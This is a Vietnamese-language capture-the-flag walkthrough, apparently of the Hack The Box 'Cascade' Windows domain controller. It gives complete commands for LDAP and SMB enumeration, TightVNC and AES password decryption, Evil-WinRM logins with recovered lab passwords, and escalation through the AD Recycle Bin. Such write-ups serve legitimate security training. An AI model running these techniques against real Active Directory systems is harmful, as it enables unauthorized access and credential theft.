

# Cascade

## Synopsis

Cascade là một machine Windows có độ khó medium được định cấu hình làm Domain Controller. LDAP anonymous binds được bật và enum mang lại mật khẩu cho user `r.thompson`, cấp quyền truy cập vào registry backup `TightVNC`. Backup được decrypt để lấy password cho `s.smith`. User này có quyền truy cập vào file thực thi .NET, file này sau khi dịch ngược và phân tích mã nguồn sẽ tiết lộ password cho tài khoản `ArkSvc`. Tài khoản này thuộc group `AD Recycle Bin` và có thể xem các đối tượng Active Directory đã xóa. Một trong những tài khoản người dùng đã xóa được phát hiện có chứa mật khẩu được hardcode, mật khẩu này có thể được sử dụng lại để đăng nhập với tư cách primary domain administrator.

### Skills Required

- Enum LDAP

- Enum SMB

- Xử lý database SQLite

- Reverse Engineering .NET Assemblies

### Skills Learned

- Trích xuất TightVNC Password

- Mã hóa AES

- Enum Active Directory 

- Active Directory Recycle Bin

## Enumeration

Bắt đầu bằng cách chạy scan Nmap.

```
ports=$(nmap -Pn -p- --min-rate=1000 -T4 10.10.10.182 | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)

nmap -p$ports -Pn -sC -sV 10.10.10.182
```


Quá trình scan cho thấy LDAP (389), SMB (445) và WinRM (5985) có sẵn. Enum SMB cho bất kỳ open share nào.

```
smbclient -L 10.10.10.182
```


Đăng nhập ẩn danh được cho phép nhưng không thể list share.

### Lightweight Directory Access Protocol (LDAP)

Tiếp theo, có thể enum LDAP sau khi tải Windapsearch (https://github.com/ropnop/windapsearch).

```
git clone https://github.com/ropnop/windapsearch

pip install python-ldap

./windapsearch.py -U --full --dc-ip 10.10.10.182
```

Lệnh trên sẽ list tất cả user trong domain.


Dường như không có bất kỳ mật khẩu nào trong trường mô tả người dùng, vì vậy có thể bắt đầu kiểm tra một số thuộc tính người dùng khác. Một trong số chúng dành cho người dùng `r.thompson` được gọi là `CascadeLegacyPwd`, chứa chuỗi được mã hóa Base64. Giải mã nó.


Đầu ra có vẻ là một mật khẩu. Từ kết quả của Windapsearch, biết rằng `sAMAccountName` là `r.thompson`, vì vậy tên này có thể được sử dụng làm username. Sử dụng Evil-WinRM để thử kết nối `r.thompson`.

```
evil-winrm -i 10.10.10.182 -u r.thompson -p rY4n5eva
```


Đăng nhập không thành công, điều đó có nghĩa là không có quyền PowerShell Remoting.

### SMB

Sử dụng smbmap để xác minh xem có quyền truy cập vào bất kỳ shre SMB nào có thông tin xác thực ở trên hay không.

```
smbmap -H 10.10.10.182 -u r.thompson -p 'rY4n5eva'
```


Từ các share có sẵn, share không mặc định duy nhất có quyền truy cập là share `Data`.

```
smbclient \\\\10.10.10.182\\Data -U r.thompson
```



Folder duy nhất có quyền truy cập là `IT`, chứa bốn thư mục con `Email Archives`, `LogonAudit`, `Logs` và `Temp`.


Folder `Email Archives` chứa `Meet_Notes_ June_2018.html`, hiển thị cuộc trò chuyện qua email giữa `Steve Smith` và `IT` department. Tải về và mở nó.

```
cd "Email Archives"

get Meet_Notes_ June_2018.html
```

Có thể sử dụng trình soạn thảo văn bản hoặc trình duyệt để xem file.

```
cat Meeting_Notes_June_2018.html

<SNIP>
We will be using a temporary account to perform all tasks related to the network migration and this account will be deleted at the end of 2018 once the migration is complete. This will allow us to identify actions related to the migration in security logs etc. Username is TempAdmin (password is the same as the normal admin account password).
</SNIP>
```

Việc trao đổi email gợi ý về sự tồn tại của tài khoản `TempAdmin`, có cùng mật khẩu với tài khoản Administrator mặc định.

Folder `Logs` chứa các folder `Ark AD Recycle Bin` và `DCs`, lần lượt chứa `ArkAdRecycleBin.log` và `dcdiag.log`.

Tải xuống và tiến hành kiểm tra các file này.

`ArkAdRecycleBin.log` chứa text log cho một chương trình có tên `ARK AD RECYCLE BIN MANAGER`.

```
8/12/2018 12:22 [MAIN_THREAD] ** STARTING - ARK AD RECYCLE BIN MANAGER v1.2.2
**
8/12/2018 12:22 [MAIN_THREAD] Validating settings...
8/12/2018 12:22 [MAIN_THREAD] Running as user CASCADE\ArkSvc
8/12/2018 12:22 [MAIN_THREAD] Moving object to AD recycle bin CN=TempAdmin,OU=Users,OU=UK,DC=cascade,DC=local
8/12/2018 12:22 [MAIN_THREAD] Successfully moved object. New location CN=TempAdmin\0ADEL:f0cc344d-31e0-4866-bceb-a842791ca059,CN=Deleted Objects,DC=cascade,DC=local
```

Log cho biết rằng chương trình đang chạy trong bối cảnh `ArkSvc` và tài khoản `TempAdmin` đã được chuyển vào thùng rác.

Cuối cùng, `Temp` chứa các folder dành cho người dùng `r.thompson` và `s.smith`. Có thể tìm thấy file `VNC Install.reg` trong folder của `s.smith`. Nó dường như là backup registry setting cho `TightVNC`, một chương trình control remote trên desktop.


## Foothold

### TightVNC

File registry được tìm thấy chứa thuộc tính `Password`, với giá trị tương ứng bao gồm các ký tự hex.

```
"Password"=hex:6b,cf,2a,4b,6e,5a,ca,0f
```

(https://github.com/frizb/PasswordDecrypts) trình bày cách decrypt mật khẩu TightVNC bằng Metasploit. Sử dụng các lệnh dưới đây để giải mã mật khẩu.

```
msfconsole
msf5 > irb
key="\x17\x52\x6b\x06\x23\x4e\x58\x07"
require 'rex/proto/rfb'
Rex::Proto::RFB::Cipher.decrypt ["6BCF2A4B6E5ACA0F"].pack('H*'), key
```

Biến `key` là khóa DES hardcode đã biết đã được trích xuất từ ​​​​chương trình. Hàm `Rex::Proto::RFB::Cipher.decrypt` được sử dụng để decrypt mật khẩu bằng key được cung cấp.


Mật khẩu của `s.smith` được tiết lộ là `sT333ve2`. Kiểm tra xem user này có thuộc group `Remote Management Users` hay không, vì điều này sẽ cho phép kết nối bằng `Evil-WinRM`.

```
./windapsearch.py -U --full --dc-ip 10.10.10.182
```


Đây là trường hợp có thể tiến hành kết nối.

```
evil-winrm -i 10.10.10.182 -u s.smith -p sT333ve2
```


Điều này hoạt động và kết nối PowerShell Remoting được thiết lập. User flag nằm ở `C:\Users\s.smith\Desktop`.

## Lateral Movement

### Audit

cmdlet `Get-ADUser` có thể được sử dụng để list các thuộc tính cho user `s.smith`.

```
Get-ADUser -identity s.smith -properties *
```


Lệnh này cho biết user là member của group `Audit Share` và logon script `MapAuditDrive.vbs` cũng được gán cho tài khoản này. Các logon script Active Directory được lưu trong phần share `NETLOGON` theo mặc định.

```
smbclient \\\\10.10.10.182\\NETLOGON -U s.smith
```


Share có thể truy cập được và script hiện diện cùng với một script khác có tên `MapDataDrive.vbs`. Tải về và đọc chúng.

```
get MapAuditDrive.vbs

get MapDataDriver.vbs
```

Script `MapDataDrive.vbs` mounts ổ `Data` mà trước đây đã truy cập dưới user `r.thompson`, trong khi script `MapAuditDrive.vbs` ánh xạ một ổ đĩa không thể truy cập trước đây có tên là `Audit$`.

```
'MapAuditDrive.vbs
Option Explicit
Dim oNetwork, strDriveLetter, strRemotePath
strDriveLetter = "F:"
strRemotePath = "\\CASC-DC1\Audit$"
Set oNetwork = CreateObject("WScript.Network")
oNetwork.MapNetworkDrive strDriveLetter, strRemotePath
WScript.Quit
```

Kiểm tra ổ đĩa bằng cách sử dụng `smbclient` với tư cách là user `s.smith`.

```
smbclient \\\\10.10.10.182\\Audit$ -U s.smith
```


### SQLite

Tải `RunAudit.bat` để kiểm tra thêm.

```
CascAudit.exe "\\CASC-DC1\Audit$\DB\Audit.db"
```

File batch thực thi `CascAudit.exe` với file database nằm trong folder `DB` được truyền làm đầu vào. Tải xuống database và sử dụng lệnh `file` để kiểm tra loại file.


Nó được xác định là database SQLite. Tiện ích `sqlitebrowser` có thể được sử dụng để kiểm tra nội dung DB.

```
sqlitebrowser Audit.db
```


Bảng `LDAP` chứa mật khẩu cho user `ArkSvc`. Có vẻ như nó được mã hóa base64, nhưng giải mã nó không trả về bất kỳ đầu ra hữu ích nào, điều này cho biết dữ liệu đã được mã hóa.


### CascAudit

Vì database này được sử dụng bởi file thực thi `CascAudit.exe`, tải xuống và thử decompile nó. Điều này có thể giúp hiểu cách mật khẩu được mã hóa. Lệnh `file` có thể được sử dụng để xác định loại file thực thi.


Nó được xác định là file thực thi .NET, vì vậy có thể sử dụng decompiler .NET như dnSpy để mở nó. Nó có thể chạy trên Linux bằng wine. Tải xuống bản phát hành 64 bit mới nhất từ ​​kho lưu trữ GitHub chính thức.

```
sudo apt install wine64 -y

cd ~/Downloads

unzip dnSpy-netcore-win64.zip

cd dnSpy-netcore-win64

wine dnSpy.exe
```


Nhấp vào `File`, sau đó `Open` và locate `CascAudit.exe` để decompile. Locate hàm `main` bằng cách click vào `CascAudit (1.0.0.0)`, sau đó là `CascAudit` và chọn `MainModule`.


Code liên quan để giải mã mật khẩu được hiển thị bên dưới.

```
string text = string.Empty;
string password = string.Empty;
string text2 = string.Empty;
try
{
    sqliteConnection.Open();
    using (SQLiteCommand sqliteCommand = new SQLiteCommand("SELECT * FROM LDAP", sqliteConnection))
    {
        using (SQLiteDataReader sqliteDataReader = sqliteCommand.ExecuteReader())
        {
            sqliteDataReader.Read();
            text = Conversions.ToString(sqliteDataReader["Uname"]);
            text2 = Conversions.ToString(sqliteDataReader["Domain"]);
            string text3 = Conversions.ToString(sqliteDataReader["Pwd"]);
            try
            {
                password = Crypto.DecryptString(text3, "c4scadek3y654321");
            }
            catch (Exception ex)
            {
                Console.WriteLine("Error decrypting password: " + ex.Message);
                return;
            }
        }
    }
    sqliteConnection.Close();
}
```

Chương trình mở database SQLite, đọc mật khẩu và giải mã bằng hàm `Crypto.DecryptString`, sử dụng key `c4scadek3y654321`. Hàm giải mã dường như không tồn tại trong file thực thi, vì vậy nó có thể được tải thông qua DLL. Khi xem share `Audit`, `CascCrypto.dll` được xác định. Tải xuống từ share và mở bằng dnSpy. Mã liên quan như sau.

```
public static string DecryptString(string EncryptedString, string Key)
    {
        byte[] array = Convert.FromBase64String(EncryptedString);
        Aes aes = Aes.Create();
        aes.KeySize = 128;
        aes.BlockSize = 128;
        aes.IV = Encoding.UTF8.GetBytes("1tdyjCbY1Ix49842");
        aes.Mode = 1;
        aes.Key = Encoding.UTF8.GetBytes(Key);
        string @string;
        using (MemoryStream memoryStream = new MemoryStream(array))
        {
            using (CryptoStream cryptoStream = new CryptoStream(memoryStream, aes.CreateDecryptor(), 0))
            {
                byte[] array2 = new byte[checked(array.Length - 1 + 1)];
                cryptoStream.Read(array2, 0, array2.Length);
                @string = Encoding.UTF8.GetString(array2);
            }
        }
        return @string;
    }
```

Thuật toán AES 128 bit được sử dụng để giải mã mật khẩu. Chế độ mã hóa được đặt thành `1` và IV được đặt thành `1tdyjCbY1Ix49842`. Theo tài liệu .NET, chế độ 1 tương ứng với CBC. Mô-đun `pyaes` có thể được sử dụng để giải mã mật khẩu.


Có thể sử dụng đoạn mã sau để giải mã mật khẩu.

```
import pyaes
from base64 import b64decode

key = b"c4scadek3y654321"
iv = b"1tdyjCbY1Ix49842"
aes = pyaes.AESModeOfOperationCBC(key, iv = iv)
decrypted = aes.decrypt(b64decode('BQO5l5Kj9MdErXx6Q6AGOw=='))
print(decrypted.decode())
```


Quá trình giải mã thành công, cho thấy mật khẩu của tài khoản `ArcSvc` là `w3lc0meFr31nd`. Xác nhận rằng `ArkSvc` nằm trong group `Remote Management Users`.


Sử dụng `Evil-WinRM` như trước để kết nối với hệ thống.

```
evil-winrm -i 10.10.10.182 -u ArkSvc -p w3lc0meFr31nd
```


Phiên PowerShell Remoting dưới dạng `ArkSvc` được thiết lập, nhưng root flag không khả dụng.

## Privilege Escalation

Enum danh sách group membership của user hiện tại.

```
whoami /all
```


Người dùng được xác định là thuộc group `AD Recycle Bin`. Active Directory Recycle Bin được sử dụng để khôi phục các đối tượng Active Directory đã xóa như Users, Groups, OUs, v.v. Các đối tượng giữ nguyên tất cả các thuộc tính của chúng khi ở trong AD Recycle Bin, cho phép chúng được khôi phục tại bất kỳ thời điểm nào. Enum AD Recycle Bin cho các đối tượng quan tâm bằng lệnh `Get-ADObject` và chỉ lọc các đối tượng đã xóa bằng thuộc tính `isDeleted`.

```
Get-ADObject -ldapfilter "(&(isDeleted=TRUE))" -IncludeDeletedObjects
```

Có thể áp dụng filter để chỉ truy xuất tài khoản người dùng bằng cách sử dụng thuộc tính `objectclass`.

```
Get-ADObject -ldapfilter "(&(objectclass=user)(isDeleted=TRUE))" - IncludeDeletedObjects
```


Tài khoản `TempAdmin` được đề cập trong email được trả về. Enum thêm user này và list các thuộc tính khả dụng. Filter `DisplayName` được sử dụng để chỉ chọn tài khoản cụ thể đó.

```
Get-ADObject -ldapfilter "(&(objectclass=user)(DisplayName=TempAdmin) (isDeleted=TRUE))" -IncludeDeletedObjects -Properties *
```


Một thuộc tính có tên `cascadelegacyPwd` được trả về, trông rất giống với thuộc tính mà `r.thompson` có và cũng trông giống như một chuỗi được mã hóa Base64. Giải mã nó.


Chuỗi trả về trông giống như mật khẩu nhưng người dùng đã bị xóa, vì vậy không thể sử dụng nó để đăng nhập với tư cách là `TempAdmin`. Tuy nhiên, nhớ lại email có đề cập rằng tài khoản Administrator có cùng mật khẩu với tài khoản `TempAdmin`. Đăng nhập với tư cách là Administrator.

```
evil-winrm -i 10.10.10.182 -u Administrator -p baCT3r1aN00dles
```


Đăng nhập thành công và có thể đọc được root flag.